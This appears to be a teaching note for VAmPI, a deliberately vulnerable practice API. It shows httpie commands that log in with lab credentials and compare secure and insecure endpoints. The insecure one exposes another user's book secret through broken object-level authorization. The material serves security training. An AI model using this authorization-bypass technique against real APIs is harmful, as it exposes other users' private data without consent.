 # Handy shortcuts

Grab the auth token more easily:
`http :5002/books/v1/bookTitle97 Authorization:"Bearer $(http :5001/users/v1/login username=admin password=pass1|jq -r .auth_token)"`



## Teaching & Learning notes

Note that "bookTitle97" doesn't belong to "admin", it actually belongs to "name2"! This means that it's a BOLA to be able to access it. If you make the call to Vampi running securely, the call should fail on books that do not belong to the user. However, if you make the call to Vampi running vulnerably, the call will succeed and show you the other user's secret.

For example:

To start, find the titles and owners of the books:

`http :5001/books/v1`

Output:

```
        {
            "book_title": "bookTitle16",
            "user": "name1"
        },
        {
            "book_title": "bookTitle97",
            "user": "name2"
        },
        {
            "book_title": "bookTitle22",
            "user": "admin"
        }
```

This means that in a secure system, only the user of the book should be allowed to see the secret associated with the book title. For example:

Secure call using actual book owner/user:

`http :5001/books/v1/bookTitle97 Authorization:"Bearer $(http :5001/users/v1/login username=name2 password=pass2|jq -r .auth_token)"`

Returns success (as expected):

`{
    "book_title": "bookTitle97",
    "owner": "name2",
    "secret": "secret for bookTitle97"
}`

Now, if I make another secure call to a book that same user DOES NOT own, what do you think should happen? That's right! The call SHOULD fail. Let's see:

Secure call using owner/user to a book they do not use/own:

`http :5001/books/v1/bookTitle97 Authorization:"Bearer $(http :5001/users/v1/login username=name1 password=pass1|jq -r .auth_token)"`

Returns failure (as expected):

`{
    "message": "Book not found!",
    "status": "fail"
}`

But now let's make the same call to an insecure implementation:

`http :5002/books/v1/bookTitle97 Authorization:"Bearer $(http :5001/users/v1/login username=name1 password=pass1|jq -r .auth_token)"`

Notice that it unexpectedly returns a success:

`{
    "book_title": "bookTitle97",
    "owner": "name2",
    "secret": "secret for bookTitle97"
}`

I've authenticated as `name1` but I'm able to retrieve the book that belongs to `name2` and see the secret associated with that book!

